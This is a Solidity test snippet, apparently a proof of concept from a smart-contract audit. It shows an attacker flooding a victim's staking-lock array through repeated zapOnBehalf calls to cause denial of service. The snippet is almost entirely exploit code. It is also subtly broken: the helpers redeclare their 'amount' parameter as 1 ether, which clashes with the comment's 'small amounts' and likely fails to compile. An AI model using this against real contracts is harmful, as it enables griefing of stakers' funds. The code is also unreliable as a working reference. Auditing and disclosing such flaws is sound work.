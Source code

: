 ```solidity
    
    // Malicious user stakes on behalf of the user with small amounts of LP tokens
    // thus flooding the user's locks array
    for(uint i=0; i < 500; i++) {
        _stake_user_on_behalf(maliciousUser, user, 1e10);
    }
    
    StakedLock[] memory locks = staker.getUserLocks(user);
    console.log("length of the locks array:", locks.length);
}
```

```solidity
function _stake_user_with_index(address user, uint256 amount, uint256 index) internal {
    uint256 amount = 1 ether;
    load_weth9(user, amount, weth9);
    uint256 lpAmount;
    vm.startPrank(user);
    {
        weth9.approve(address(lockzap), amount);
        (,, uint256 minLpTokens) = vAmmPoolHelper.quoteAddLiquidity(0, amount);
        console.log("minLpTokens", minLpTokens);
        lpAmount = lockzap.zap(
            amount, // weth9Amt
            0, // emissionTokenAmt
            index, // lockTypeIndex
            minLpTokens // slippage check
        );
    }
    vm.stopPrank();
}

function _stake_user_on_behalf(address user, address onBehalf, uint256 amount) internal {
    uint256 amount = 1 ether;
    load_weth9(user, amount, weth9);
    uint256 lpAmount;
    vm.startPrank(user);
    {
        weth9.approve(address(lockzap), amount);
        (,, uint256 minLpTokens) = vAmmPoolHelper.quoteAddLiquidity(0, amount);
        console.log("minLpTokens", minLpTokens);
        lpAmount = lockzap.zapOnBehalf(
            amount, // weth9Amt
            0, // emissionTokenAmt
            onBehalf,
            minLpTokens // slippage check
        );
    }
    vm.stopPrank();
}
```
